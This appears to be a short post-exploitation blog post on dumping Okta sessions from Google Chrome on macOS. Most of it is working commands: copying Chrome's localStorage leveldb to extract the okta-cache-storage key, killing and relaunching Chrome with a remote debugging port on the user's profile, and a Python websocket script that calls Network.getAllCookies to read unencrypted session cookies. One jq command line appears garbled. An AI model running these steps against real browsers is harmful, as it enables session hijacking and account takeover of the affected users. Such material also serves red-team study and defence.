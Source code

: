 ```yaml
---
layout: post
title:  "Dumping Okta Sessions in Chrome"
date:   2024-11-17 03:00:00 -0600
categories: post-exploitation
---
```


# LocalStorage

Google Chrome (macOS) localStorage is saved on the filesystem in the leveldb file: `/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb`.

To dump localStorage:
* `git clone https://github.com/rdreher/chromeStorageDump`
* Avoid a file lock, by first copying leveldb to /tmp
* `cp -R "/Users/<user>/Library/Application Support/Google/Chrome/Default/Local Storage/leveldb" "/tmp/leveldb"`
* `node chromeStorageDump.js -k okta-cache-storage "/tmp/leveldb"`

# Cookies

Google Chrome (macOS) cookies are saved in an encrypted SQLite database with the key saved in the keychain. Unencrypted cookies can still be fetch by attaching a remote chrome debugger. This technique requires existing Chrome browsers to be restarted with the `--remote-debugging-port` flag. 

* `killall Google\ Chrome`
* `/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --remote-debugging-port=9222 --user-data-dir="/Users/<user>/Library/Application Support/Google/Chrome" --restore-last-session`

The following `/json` endpoint provides a list of websocket addresses. 
* `curl http://localhost:9222/json`

Using a websocket client, connect to the correct address to reveal the unencrypted cookie in JSON format.

* `pip3 install websocket`
* `pip3 install websocket-client`

#### **`ripWCMN.py`**
```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/85976D59050BFEFDBA48204E3D865D00", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv())
```

* `python3 rip ripWCMN.py  | jq -c '.result.cookies[].name="idx"'`

Credit: Justin Bui and @mangopdf

### References:
* https://www.cyberark.com/resources/threat-research-blog/the-current-state-of-browser-cookies
* https://gist.github.com/creachadair/937179894a24571ce9860e2475a2d2ec
* https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f
* https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e